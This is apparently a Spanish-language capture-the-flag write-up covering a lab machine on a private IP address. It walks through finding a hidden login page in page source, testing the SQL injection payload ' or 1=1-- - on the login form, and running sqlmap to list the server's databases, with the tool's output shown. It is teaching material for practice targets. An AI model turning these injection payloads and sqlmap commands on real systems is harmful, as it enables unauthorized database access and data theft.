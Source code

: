 Veamos ahora tenmemos:
```
http://192.168.1.45/index.html
http://192.168.1.45/index2.php
http://192.168.1.45/login.php
```

vamos pues por orden y miro "http://192.168.1.45/index2.php", accedo a su codigo fuente con ctrl+u o:
```bash
view-source:http://192.168.1.45/index2.php
```
y revisando el código veo:
```
<li>NEXUS> initialize global protocol --login</li>
<li>AUTHORIZATION REQUIRED</li>
<li>NEXUS MSG> _ AUTHORIZATION PANEL :: http://[personal ip]/auth-login.php</li>
```
pruebo con:
```bash
http://192.168.1.45/auth-login.php
```
y encuentro una ruta válida

## Ganando acceso a la máquina

veo un panel de acceso, miro el código fuente:
```
<form method="POST" action="login.php">
            <input type="text" name="user" placeholder="Usuario" required><br>
            <input type="password" name="pass" placeholder="Contraseña" required><br>
            <input type="submit" value="Ingresar">
```
hay dos parámetros "user" y "pass" que se envían a login.php
no sabemos user ni pass pero probamos una inyeccion sql en el parámetro "user" el típico:
```
' or 1=1-- -
```
y logramos acceso...a...nada?...bueno sabemos que es vulnerable

## EXPLOTACIÓN CON SQLMAP

Si no quereis liaros la cabeza, sabiendo que hay un parámetro vulnerable usamos sqlmap:
 extraemos las bases de datos:
 ```bash
sqlmap -u http://192.168.1.45/auth-login.php --forms --dbs --batch
```
```
[10:44:10] [INFO] fetching database names
[10:44:10] [INFO] resumed: 'information_schema'
[10:44:10] [INFO] resumed: 'sion'
[10:44:10] [INFO] resumed: 'mysql'
[10:44:10] [INFO] resumed: 'performance_schema'
[10:44:10] [INFO] resumed: 'Nebuchadnezzar'
[10:44:10] [INFO] resumed: 'sys'
```
ineteresante: Nebuchadnezzar
